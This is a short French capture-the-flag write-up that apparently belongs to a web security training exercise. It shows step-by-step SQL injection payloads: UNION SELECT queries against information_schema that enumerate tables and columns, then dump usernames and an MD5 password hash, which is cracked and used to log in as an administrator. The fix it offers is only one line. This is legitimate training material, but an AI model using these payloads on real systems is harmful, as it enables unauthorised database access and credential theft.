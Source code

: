 <h1>Faille</h1>

Sur la page `member`, il y a une SQL Injection.
Au début, j'ai affiché tous les users de la table avec `1 or 1` ce qui me permet de constater qu’il y a une SQL Injection.

`1 or 1`<br>
```1 UNION SELECT table_name, table_type FROM information_schema.tables```

- Rechercher les tableau de type "BASE TABLE"
- `db_default` users guestbook list_images vote_dbs

```1 UNION SELECT table_name, table_schema FROM information_schema.tables```
- Donc table_name: Member_Brute_Force, table_schema: db_default

```1 UNION SELECT table_name, column_name FROM information_schema.columns```
- id, username, password

```1 or 1 UNION SELECT  username, password FROM Member_Brute_Force.db_default```

- 3bf1114a986ba87ed28fc1b5884fc2f8  -> md5 -> shadow
- login with root/shadow ou admin/shadow pour trouver le flag le flag

<h1>Éviter cette faille</h1>

Proteger les requetes SQL.

<h1>Ressources</h1>

Information_schema: https://mariadb.com/kb/en/information-schema-columns-table/